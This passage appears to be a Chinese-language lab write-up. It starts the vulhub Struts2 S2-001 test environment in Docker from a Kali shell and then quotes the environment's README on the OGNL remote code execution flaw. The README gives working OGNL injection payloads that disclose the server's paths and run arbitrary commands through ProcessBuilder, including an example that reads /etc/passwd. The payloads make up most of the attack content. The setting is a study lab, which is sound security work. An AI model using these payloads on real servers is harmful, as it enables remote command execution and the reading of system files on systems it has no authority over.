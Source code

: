 ```bash
 ---> 84ad0a09a7ba
Successfully built 84ad0a09a7ba
Successfully tagged s2-001_struts2:latest
                                                                                                                                                              
┌──(kali㉿kali)-[/var/…/html/vulhub/struts2/s2-001]
└─$ sudo docker-compose up -d
s2-001_struts2_1 is up-to-date
                                                                                                                                                              
┌──(kali㉿kali)-[/var/…/html/vulhub/struts2/s2-001]
└─$ sudo docker-compose ps   
      Name             Command       State                    Ports                  
-------------------------------------------------------------------------------------
s2-001_struts2_1   catalina.sh run   Up      0.0.0.0:8080->8080/tcp,:::8080->8080/tcp
```

在vulhub中的README文件给出了漏洞利用的poc

````markdown
# S2-001 远程代码执行漏洞

## 原理

参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

> 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

## 环境

执行以下命令启动s2-001测试环境

```
docker-compose build
docker-compose up -d
```

## POC && EXP

获取tomcat执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](1.jpeg)

````

---